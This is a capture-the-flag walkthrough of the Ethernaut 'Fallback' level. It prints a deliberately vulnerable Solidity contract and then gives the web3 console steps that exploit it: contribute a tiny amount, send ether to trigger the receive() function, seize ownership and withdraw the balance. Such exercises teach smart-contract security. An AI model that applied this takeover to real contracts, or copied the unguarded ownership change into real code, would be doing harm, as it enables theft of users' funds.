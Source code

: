 To beat the level
* we need to claim ownership of the contract
* clean the balance to 0

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

solution:

we are going to exploit the fallback function to gain ownership of the smart contract

this is the function that is vulnerable. Changing ownership is bad practtice
```
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

Fallback functions can be triggered if we send ether without any data to the smart contract

the above fallback function has an addendum though. We must first become a contributor with a value of less than 0.001.


```
await contract.contribute({value:web3.utils.toWei("0.0001")})
```

check if we have become contributor (use promise)
```
contract.getContribution()
```

send nominal amount of eth to become owner
```
contract.send(1)
```

check if your owner. this should give your eth wallet address. metamask in our case.
```
await contract.owner()
```


Then withdraw all money
```
contract.withdraw()
```


























